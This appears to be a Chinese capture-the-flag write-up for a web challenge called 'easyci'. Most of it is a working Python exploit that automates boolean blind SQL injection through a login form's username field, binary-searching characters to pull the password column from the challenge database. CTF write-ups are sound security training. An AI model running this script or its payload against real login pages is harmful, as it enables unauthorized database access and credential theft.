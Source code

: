 ## web

### easyci

考点：MySQL读写文件

![image-20201226234822836](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164407.png)

和巅峰极客的前端一样，而且发现也是布尔盲注，一阵狂喜；

fuzz一番竟然没有任何过滤

exp:

```python
#python3
import requests
import time

host = 'http://eci-2zegnayqf8pwz72ze2yw.cloudeci1.ichunqiu.com/public/index.php/home/login'

def mid(bot, top):
    return (int)(0.5*(top+bot))

def transToHex(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x', '')
    return res

def sqli():
    name = ''
    for j in range(1, 2000):
        top = 126
        bot = 32
        while top > bot:
            #babyselect = '(database())'#p3rh4ps
            babyselect = 'password'#c3762483bc73d0b7943156d43911ce38->HEIHEIHEIHEI
            #babyselect = ""
            payload = "0'||ascii(substr({},{},1))>{}#".format(babyselect, j, mid(bot, top))
            data = {
                "username": payload,
                "password": "1"
            }
            proxy = {"http": "http://127.0.0.1:8080"}
            try:
                r = requests.post(url=host, data=data, timeout=3, proxies=proxy)
                #print(payload)
                #print(r.text)
                if r.text.count('>密码错误<') == 1:
                    bot = mid(bot, top) + 1
                else:
                    top = mid(bot, top)
            except:
                continue
        name += chr(top)
        print(name)

if __name__ == '__main__':
    sqli()

```
